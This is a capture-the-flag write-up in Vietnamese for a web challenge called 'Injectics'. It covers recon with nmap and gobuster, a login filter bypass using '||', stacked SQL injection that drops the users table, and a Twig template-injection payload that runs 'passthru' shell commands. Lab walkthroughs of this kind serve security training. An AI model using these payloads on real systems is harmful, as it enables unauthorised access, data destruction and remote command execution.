# **Challenge - Injectics**


> Can you utilise your web pen-testing skills to safeguard the event from any injection attack?

## Recon
Ban đầu web cho ta một IP, ta sử dụng Nmap để có thể tìm những dịch vụ đang hoạt động 

```bash
nmap 10.48.165.109
```



Kết quả là ta nhận được 2 port đang hoạt động là `22-SSH` và `80-HTTP`\
Thực hiện truy cập web với port 80, ta nhận được giao diện 




Ta có thêm 2 form đăng nhập, một form của bình thường ở `/login.php` và một form khác ở `/adminLogin007.php`

Tiếp theo ta thực hiện liệt kê các thư mục trên hệ thống này bằng **Gobuster**

```bash
sudo gobuster dir -u http://IP/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt --threads 100 -x log,txt,php 
```



Kết quả ta nhận được một file `mail.log`, thực hiện cập, ta nhận được nội dung:



Đơn giản là mail nói rằng có hệ thống backup đăng nhập đề phòng bằng cách mỗi phút lại insert vào bảng `users` để có thể duy trì đăng nhập với tài khoản mật khẩu trên theo tài khoản mật khẩu đã cho khi hệ thống có lỗi DB

Ta thực hiện đăng nhập vào 2 tài khoản trên thì đều không được ở cả 2 form

## Exploit


Thực hiện đăng nhập ở chức năng thông thường, ta quan sát được request đăng nhập gồm 3 trường `username`, `password`, `function`\
Ta có thể có các hướng là `SQLi`, `NoSQLi`, `ORMi`

Đầu tiên ta thực hiện chèn dấu `'`, ta nhận được thông báo 





Ta xem source code xử lý ở phía client, ta nhận thấy rằng phía này chặn các từ khóa của SQL như `or`, `and`, `union`, `select`, `'`, `"`, và kể cả khi ta thực hiện chèn những toán tử này bằng request từ Burp, ta cũng nhận được thông báo `{"status":"error","message":"Invalid email or password"}`

Vì vậy ta thực hiện biến đổi payload, biến `or/OR` thành `oR/Or`



Kết quả là vẫn bị web filter, ta thực hiện đổi `OR` thành toán tử `||` có chức năng tương tự



Kết quả là ta nhận được đường dẫn đến dashboard `dashboard.php?isadmin=false`

Thực hiện truy cập ta có thể truy cập vào tài khoản của người dùng `dev` và có khả năng điều chỉnh số liệu của bảng\
Ta thao tác điều chỉnh rồi quan sát request gồm những tham số sau:



Có thể câu truy vấn của thao tác này là:

```sql
UPDATE medals SET country='',gold=22,silver=21,bronze=12345 WHERE rank='1'
``` 

Bởi vì ta thay tham số rank nào thì sẽ cập nhật số liệu của rank đó, nó tương tự như ID\
Bây giờ ta thử chèn SQL vào tham số `rank` với payload

```sql
1'
```



Web đã trả về thông báo lỗi `Error updating data.`

Ta tiếp tục với payload 

```sql
1'-- 
```

Thì nhận dược kết quả tương tự, có thể tham số này có kiểu `int`, vậy nên ta thử bỏ dấu `'`
```sql
1-- 
```

Kết quả là request đã hợp lệ, ta nhớ rằng bên nội dung của file `mail.log` có nói là nếu có sự cố xảy ra với DB, ta có thể đăng nhập bằng tài khoản và mật khẩu cố định ở trong file\
Vì vậy ta sẽ thực hiện xóa bảng `users`

```sql
1;DELETE FROM users-- 
```



Ta thấy kết quả truy vấn đã thành công, ta thực hiện đăng nhập bằng tài khoản có sẵn



Nhưng kết quả là vẫn không được, điều đó có thể `users` chưa được xóa/chưa có lỗi xảy ra

Ta thử dùng `DROP` để xóa `users`

```sql
1;DROP TABLE users-- 
```



Sau khi gửi đi, ta nhận được thông báo rằng đã có lỗi xảy ra\
Ta thực hiện đăng nhập lại



Ta đã truy cập thành công admin panel



Tiếp theo thì ở `/update_profile.php` có chức năng update profile, ta thực hiện thay đổi tên của người dùng, khi ta thay đổi firstname, ta thấy có sự thay đổi ở bên home



Ta thử chèn payload của `SSTI`

```php
{{7*7}}
```



Kết quả là web đã thực thi biểu thức, ta biết được web dùng `Twig`

Ta có thể tìm kiếm payload [tại đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/)

Ta tìm được payload là 
```php
{{['ls','']|sort('passthru')|join()}}
```



Việc còn lại là tìm kiếm file 

```php
{{['find / -type f -name "*.txt"  2>/dev/null','']|sort('passthru')|join()}}
```



Cuối cùng đọc file để lấy flags

